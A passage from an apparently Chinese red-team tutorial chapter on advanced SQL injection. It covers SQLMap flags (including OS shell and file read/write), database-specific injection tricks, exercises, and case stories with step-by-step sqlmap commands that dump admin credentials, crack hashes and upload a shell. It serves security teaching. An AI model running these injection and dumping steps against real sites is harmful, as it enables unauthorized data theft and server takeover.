| `--os-shell` | 获取系统Shell |
| `--sql-shell` | 获取SQL Shell |
| `--file-read` | 读文件 |
| `--file-write` | 写文件 |
| `--tamper` | 使用Tamper脚本 |
| `--level` | 测试等级（1-5） |
| `--risk` | 风险等级（1-3） |
| `--batch` | 自动选择，不用交互 |
| `-v` | 显示详细信息 |

**图15-7 SQLMap常用参数思维导图**

```mermaid
flowchart TD
    Root[SQLMap 参数]

    Root --> Target[目标指定]
    Root --> Data[数据操作]
    Root --> Advanced[高级功能]
    Root --> Config[配置优化]

    Target --> T1["-u 指定URL"]
    Target --> T2["-r 加载请求包"]
    Target --> T3["-p 指定参数"]
    Target --> T4["--data POST数据"]
    Target --> T5["--cookie Cookie"]
    Target --> T6["--headers 请求头"]

    Data --> D1["--dbs 所有数据库"]
    Data --> D2["-D 指定数据库"]
    Data --> D3["--tables 所有表"]
    Data --> D4["-T 指定表"]
    Data --> D5["--columns 所有列"]
    Data --> D6["-C 指定列"]
    Data --> D7["--dump 导出数据"]

    Advanced --> A1["--os-shell 系统Shell"]
    Advanced --> A2["--sql-shell SQL Shell"]
    Advanced --> A3["--file-read 读文件"]
    Advanced --> A4["--file-write 写文件"]
    Advanced --> A5["--is-dba 是否DBA"]
    Advanced --> A6["--tamper 绕过脚本"]

    Config --> C1["--level 测试等级1-5"]
    Config --> C2["--risk 风险1-3"]
    Config --> C3["--threads 多线程"]
    Config --> C4["--batch 自动模式"]
    Config --> C5["--technique 指定注入类型"]
```



### 6.6 SQLMap使用技巧

1. **用BurpSuite抓包配合SQLMap**
   - 先用Burp抓到请求包
   - 存成request.txt
   - 然后`sqlmap -r request.txt`
   - 这样最方便，不用手动拼参数

2. **指定注入类型**
   - 如果你已经知道是什么类型的注入
   - 可以用`--technique`指定
   - 比如`--technique U`只测联合查询
   - 这样速度更快

3. **提高速度**
   - `--threads`设置多线程
   - 比如`--threads 10`开10个线程
   - 注意不要开太多，容易被封

4. **批量扫描**
   - 把多个URL存到一个文件里
   - 用`-m urls.txt`批量扫描

5. **新手建议**
   - 先用手工注入练手，理解原理
   - 再用SQLMap提高效率
   - 不要只会用工具，原理不懂是不行的

---

## 🗄️ 各数据库注入技巧

### 7.1 MySQL注入特点

MySQL是最常见的数据库，
也是我们主要讲的。

特点：
- 有`information_schema`，方便脱库
- 支持联合查询、报错注入、盲注
- 支持文件读写（权限够的话）
- 支持堆叠注入（取决于驱动）
- 有很多内置函数

常用函数：
- `version()`、`database()`、`user()`
- `concat()`、`group_concat()`
- `substring()`、`ascii()`、`length()`
- `sleep()`、`if()`
- `extractvalue()`、`updatexml()`
- `load_file()`、`into outfile`

### 7.2 MSSQL注入特点

MSSQL（SQL Server）是微软的数据库，
ASP.NET网站常用。

特点：
- 支持堆叠注入（默认支持）
- 有`dbo`、`sysobjects`、`syscolumns`
- 没有`information_schema`（新版本有，但不常用）
- 报错注入：`convert()`、`host_name()`等
- 权限高的话危害很大，可以执行系统命令

MSSQL获取表名：
```sql
SELECT name FROM sysobjects WHERE xtype='U'
```

获取列名：
```sql
SELECT name FROM syscolumns WHERE id=object_id('表名')
```

MSSQL的堆叠注入很好用，
因为默认就支持多语句执行。

### 7.3 Access注入特点

Access是微软的小型数据库，
一些老网站还在用。

特点：
- 没有`information_schema`
- 没有系统库可查，需要猜表名列名
- 不支持联合查询的`ORDER BY`猜列数（可以用`UNION SELECT`试）
- 报错注入不太好用
- 一般用偏移注入

Access注入比较麻烦，
因为表名列名都得靠猜。
不过现在Access已经很少见了。

### 7.4 Oracle注入特点

Oracle是大企业常用的数据库，
比较重。

特点：
- 有`all_tables`、`all_tab_columns`等系统视图
- 注入语法和MySQL不太一样
- 有`utl_http.request`、`dbms_xmldom`等函数可以利用
- 权限高的话危害很大

Oracle查表名：
```sql
SELECT table_name FROM all_tables WHERE owner=USER
```

查列名：
```sql
SELECT column_name FROM all_tab_columns WHERE table_name='表名'
```

Oracle注入比较复杂，
遇到的话再去查资料。

### 7.5 PostgreSQL注入特点

PostgreSQL也是一个很强大的开源数据库。

特点：
- 有`information_schema`
- 支持联合查询、报错注入
- 有`pg_sleep()`做时间盲注
- 可以用`COPY`命令读写文件
- 权限高可以执行系统命令

和MySQL比较类似。

---

## 📚 案例讲解

### 案例1：SQLMap一把梭实战（从入门到放弃再到真香）

小王刚学SQL注入的时候，
觉得手工注入太慢了，
就想学SQLMap。

一开始他觉得SQLMap好难啊，
参数那么多，
记都记不住。
用的时候老是出错，
要么测不出注入，
要么跑一半就失败。
他差点就放弃了。

后来他耐着性子，
一个参数一个参数地试，
慢慢就熟练了。

现在他用SQLMap，
几分钟就能跑完一个站。

给你讲一个他用SQLMap的真实案例：

目标是一个企业网站，
有个新闻页面：
```
http://example.com/news.php?id=100
```

第一步：检测注入
```bash
sqlmap -u "http://example.com/news.php?id=100" --batch
```

SQLMap很快就检测出来了，
是MySQL数据库，
支持联合查询和报错注入。

第二步：查数据库
```bash
sqlmap -u "http://example.com/news.php?id=100" --dbs --batch
```

得到了5个数据库，
其中有个叫`cms_db`的，
一看就是网站数据库。

第三步：查表
```bash
sqlmap -u "http://example.com/news.php?id=100" -D cms_db --tables --batch
```

得到了20多张表，
有`admin`、`user`、`news`、`comment`...

第四步：查admin表的列
```bash
sqlmap -u "http://example.com/news.php?id=100" -D cms_db -T admin --columns --batch
```

有`id`、`username`、`password`、`email`...

第五步：拖库
```bash
sqlmap -u "http://example.com/news.php?id=100" -D cms_db -T admin --dump --batch
```

几分钟就把管理员表跑出来了。
密码是MD5加密的，
拿去CMD5网站一解，
就得到明文了。

然后用管理员账号登录后台，
上传Shell，
拿服务器权限。
一气呵成。

> 老K说：
> **"SQLMap是把双刃剑，
> 用好了效率翻倍，
> 用不好就是'从入门到入狱'。
>
> 记住：
> 工具只是工具，
> 原理才是根本。
> 不要只会点按钮，
> 要知道背后发生了什么。
>
> 还有最重要的：
> 没有授权的话，
> 不要乱扫别人的网站！
> 那是违法的！"**

### 案例2：手工盲注半小时 vs SQLMap三分钟

小李参加CTF比赛，
遇到一道SQL注入题。

他一看是盲注，
心想"完了，盲注最费时间了"。

他想先手工试试，
猜数据库名。
第一个字符猜了半天，
猜了十几分钟才猜出来。

这不行啊，
一道题总不能做几个小时吧。

他想起了SQLMap，
赶紧拿出来用。

他先把请求包存下来，
然后：
```bash
sqlmap -r request.txt --batch --dbs
```

三分钟，
数据库名出来了。

然后：
```bash
sqlmap -r request.txt --batch -D ctf --tables
```

两分钟，
表名出来了。

继续：
```bash
sqlmap -r request.txt --batch -D ctf -T flag --dump
```

一分钟，
flag就出来了！

前后加起来不到十分钟，
要是手工的话，
几个小时都不一定做得完。

> 给新手的提醒：
> **手工注入是用来理解原理的，
> 真正实战还是要用工具。
>
> 但是，
> 一定要先学会手工注入，
> 再用工具。
> 不然工具跑不出来的时候，
> 你就束手无策了。
>
> 而且，
> 很多CTF题就是专门考手工注入的，
> SQLMap跑不出来，
> 只能手工做。**

### 案例3：Cookie注入绕过登录验证

小张做渗透测试，
目标是一个管理系统。

他测了登录框，
有防护，
SQL注入不行。
又测了各种GET、POST参数，
都没发现注入。

就在他快要放弃的时候，
他想起了Cookie注入。

他看了一下Cookie，
里面有个`userid`参数，
值是`1`。
会不会这个参数被带入数据库查询了？

他用浏览器修改了Cookie：
```
userid=1'
```
刷新页面，
页面报错了！
还真的有注入！

他赶紧用SQLMap测一下：
```bash
sqlmap -u "http://example.com/admin/index.php" --cookie "userid=1" -p userid --batch
```

果然有注入，
还是MySQL的联合查询注入。

然后他一路拖库，
拿到了管理员的账号密码，
登录了系统。

> 经验之谈：
> **测试注入的时候，
> 不要只盯着GET和POST参数。
>
> Cookie、User-Agent、Referer、XFF...
> 这些地方也要测一测。
>
> 很多时候，
> 开发者注意了GET和POST的过滤，
> 却忽略了Cookie和各种Header。
>
> 细心一点，
> 说不定就有惊喜。**

### 案例4：Access数据库偏移注入

老周接到一个老网站的渗透测试项目，
一看数据库就是Access的。

Access注入最麻烦的就是猜表名列名，
因为没有`information_schema`可以查。

他先是用常见的表名去试：
`admin`、`user`、`users`、`manage`...
试了十几个都不对。

这时候怎么办？
用**偏移注入**。

偏移注入的原理是：
用`UNION SELECT`一个个试，
看看哪些列和前面的查询类型匹配。
然后通过调整偏移量，
来获取不同表的数据。

这个方法比较复杂，
讲起来也比较绕。
简单说就是：
Access数据库虽然猜不到表名，
但是可以用偏移的方式，
直接从其他表里读数据。

老周花了半个多小时，
终于用偏移注入读出了管理员表的数据，
拿到了账号密码。

> 老K说：
> **"Access注入现在比较少见了，
> 但是一些老系统还是会遇到。
>
> 遇到了也不用慌，
> 方法总比困难多。
> 偏移注入、猜解、暴力破解...
> 总有办法的。
>
> 当然，
> 如果SQLMap能跑出来那就最好了，
> 省很多事。"**

### 案例5：一次真实的二次注入挖洞经历

小吴是个漏洞挖掘爱好者，
喜欢挖SRC（安全应急响应中心）赚奖金。

有一次他测一个电商网站，
注册功能。
他注册的时候用户名输入了测试语句，
但是注册的时候没什么反应，
看起来是安全的。

他本来想换个地方测，
但是转念一想：
"注册的时候安全，
那读取的时候呢？"

他登录进后台，
看看个人信息页面。
果然，
用户名的位置显示了他注册的时候填的内容。

他又试了一下，
注册了一个用户名为`test'`的账号，
登录之后查看个人信息，
页面报错了！

有注入！
这是二次注入！

注册的时候虽然有转义，
但是存进数据库的时候又变回去了。
然后读取的时候直接拼SQL，
就触发了注入。

他利用这个二次注入，
读出了数据库里的用户数据，
提交了漏洞，
拿到了一笔奖金。

> 送给新手的话：
> **二次注入比较隐蔽，
> 很容易被忽略。
>
> 测试的时候要有思路：
> "这个输入存到数据库里了吗？
> 存进去之后，
> 有没有其他地方会读出来用？
> 读的时候有没有过滤？"
>
> 多思考，
> 多尝试，
> 你就能发现别人发现不了的漏洞。**

---

## ✏️ 课后习题

### 选择题

1. 以下哪个不是常用的报错注入函数？
   - A. extractvalue()
   - B. updatexml()
   - C. floor()
   - D. sleep()

2. 盲注分为哪两种？
   - A. GET盲注和POST盲注
   - B. 布尔盲注和时间盲注
   - C. 数字盲注和字符盲注
   - D. 显注和隐注

3. 时间盲注常用的函数是？
   - A. wait()
   - B. sleep()
   - C. delay()
   - D. pause()

4. SQLMap中，指定数据库的参数是？
   - A. `-D`
   - B. `-T`
   - C. `-C`
   - D. `-d`

5. SQLMap中，导出数据的参数是？
   - A. `--export`
   - B. `--dump`
   - C. `--save`
   - D. `--out`

6. 以下哪个位置一般不会有SQL注入？
   - A. GET参数
   - B. POST参数
   - C. Cookie
   - D. 页面标题

7. 什么是二次注入？
   - A. 注入两次
   - B. 先存到数据库，取出来的时候触发注入
   - C. 两个参数都有注入
   - D. 以上都不对

8. 宽字节注入需要什么条件？
   - A. 数据库是GBK编码
   - B. 用了addslashes()转义
   - C. 字符集不一致
   - D. 以上都是

9. 堆叠注入的分隔符是？
   - A. 逗号`,`
   - B. 分号`;`
   - C. 冒号`:`
   - D. 点号`.`

10. Access数据库注入的特点是？
    - A. 有information_schema
    - B. 没有系统表，需要猜表名
    - C. 支持sleep函数
    - D. 以上都对

### 填空题

1. 常用的报错注入函数有______、______、______。

2. 盲注分为______和______两种。

3. 时间盲注常用的函数是______。

4. 一次执行多条SQL语句的注入叫______注入。

5. 先存到数据库、取出来的时候触发的注入叫______注入。

6. 利用字符编码问题绕过过滤的注入叫______注入。

7. SQLMap中，从文件加载请求包的参数是______。

8. SQLMap中，列出所有数据库的参数是______。

9. SQLMap中，指定表名的参数是______，指定列名的参数是______。

10. MySQL中，用来读取文件的函数是______，用来写文件的语法是______。

### 简答题

1. 报错注入的原理是什么？常用的报错函数有哪些？

2. 什么是布尔盲注？什么是时间盲注？它们有什么区别？

3. 什么是堆叠注入？需要什么条件？

4. 什么是二次注入？为什么难发现？

5. 什么是宽字节注入？原理是什么？

6. SQL注入可能出现在哪些位置？（至少说5个）

7. SQLMap有哪些常用功能？（至少说5个）

8. MySQL、MSSQL、Access三种数据库的注入有什么区别？

9. 为什么说"不要只会用SQLMap，要懂原理"？

10. 你觉得SQL注入最重要的是什么？是工具还是思路？

### 实操题

1. SQLMap基础练习：
   - 打开DVWA，难度选Low
   - 进入SQL Injection模块
   - 用SQLMap检测注入
   - 查出数据库名、表名、列名、数据
   - 把过程和结果记录下来

2. 报错注入练习：
   - 在DVWA上练习报错注入
   - 用extractvalue()和updatexml()两种方法
   - 查出完整的用户数据
   - 注意数据长度超过32位的情况怎么处理

3. 盲注练习：
   - 打开DVWA，难度选High或者Medium
   - 试试布尔盲注和时间盲注
   - 手工猜前几个字符，体验一下
   - 然后用SQLMap跑，对比一下速度

4. Cookie注入练习：
   - 找一个有Cookie参数的页面（自己搭也可以）
   - 测试Cookie注入
   - 用SQLMap的--cookie参数
   - 完成注入

5. 不同数据库注入了解：
   - 上网查一下MSSQL、Oracle、PostgreSQL注入的方法
   - 看看和MySQL有什么不同
   - 整理成笔记

---

## 📝 本章小结

这一章，
我们深入学习了SQL注入的各种进阶技巧。

总结一下重点：

1. **联合查询注入深入**
   - 显示位的利用技巧
   - 跨库注入
   - LIMIT分页查看

2. **报错注入详解**
   - extractvalue()报错注入
   - updatexml()报错注入
   - floor()报错注入
   - 最多显示32字符，需要截取

3. **盲注详解**
   - 布尔盲注：通过页面真假判断
   - 时间盲注：通过响应延迟判断
   - 手工盲注效率低，一般用工具

4. **其他注入类型**
   - 堆叠注入：一次执行多条SQL
   - 二次注入：先存后取触发
   - 宽字节注入：利用编码绕过

5. **各种位置的注入**
   - GET、POST、Cookie
   - User-Agent、Referer、XFF
   - JSON、XML
   - 只要用户可控都可能有注入

6. **SQLMap神器**
   - 基本用法：检测、拖库
   - 高级功能：读写文件、执行命令
   - 常用参数汇总
   - 使用技巧

7. **各数据库注入**
   - MySQL：最常见，information_schema
   - MSSQL：支持堆叠，sysobjects
   - Access：猜表名，偏移注入
   - Oracle：all_tables
   - PostgreSQL：类似MySQL

> 最后送你一句话：
> **"SQL注入的原理是简单的，
> 但是技巧是无穷的。
> 工具是死的，人是活的。
> 遇到问题多思考，
> 办法总比困难多。"**

---

## 🔗 相关链接

- [⬅️ 上一章：---](/redteam/day018-basic-SQL注入基础)
- [➡️ 下一章：---](/redteam/day020-basic-SQL注入高级)
- [📖 返回全书目录](/redteam/day118-toc-全书目录)
